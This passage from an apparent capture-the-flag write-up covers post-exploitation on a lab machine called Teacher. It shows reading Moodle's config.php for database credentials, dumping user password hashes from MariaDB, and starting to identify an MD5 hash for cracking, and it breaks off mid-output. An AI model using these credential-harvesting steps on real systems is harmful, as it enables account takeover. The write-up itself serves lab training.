 ~~~
www-data@teacher:/var/www/html/moodle/question$ 
{% endhighlight %}

By enumeration on Teacher as www-data user, we can find a credential for mariadb in "/var/www/html/moodle/config.php".
{% highlight shell %}
www-data@teacher:/var/www/html/moodle$ cat config.php
cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';

~~~

{% endhighlight%}

In DB "moodle" of Mariadb, we can find some password hashes for each user.<br>
One is outstanding.
{% highlight shell %}
MariaDB [moodle]> select username, password FROM mdl_user;
select username, password FROM mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)
{% endhighlight %}

By hash-identifier, we can figure out this is MD5.
{% highlight shell %}
root@kali:~# hash-identifier 
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #